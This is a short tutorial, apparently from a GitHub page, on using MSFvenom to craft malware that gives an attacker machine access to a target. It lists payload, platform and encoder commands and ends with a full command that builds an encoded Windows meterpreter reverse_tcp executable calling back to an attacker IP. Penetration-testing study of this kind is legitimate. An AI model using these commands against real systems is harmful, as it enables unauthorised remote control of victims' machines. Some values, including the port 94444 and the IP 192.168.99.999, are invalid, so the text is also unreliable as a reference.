To gain access to the TARGET remote machine, we have to create the malware which will grant our ATTACKER machine access to exploit processes on the TARGET machine.

To craft the malware, we make use of the MSFvenom commands.

**MSFvenom** is a penetration testing tool used to create payload for exploitation and post-exploitation.

we make use of the help page of MSFvenom to craft a proper malware.
```
msfvenom -h
```
A proper malware has 4 parts; Payload , Platform, Encoder & File format.

To list out multiple payloads, platforms, encoders on the MSFvenom page, we use the command; 
```
msfvenom -l payloads
```
```
msfvenom -l platforms
```
```
msfvenom -l encoders
```


The formula for crafting the basic malware will also involve the IP address which you intend to use and a suitable port number
```
msfvenom -p (any payload) LHOST=(kali_IP) LPORT=94444 or 8080) -e (any encoder) --platform (any platform) -f (any file format) > (a unique filename).(file format)
```

For example, here is a malware with all the elements in the general formula applied
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.99.999 LPORT=4444 -e x86/call4_dword_xor --platform windows -f exe > meter_revtcp.exe
```
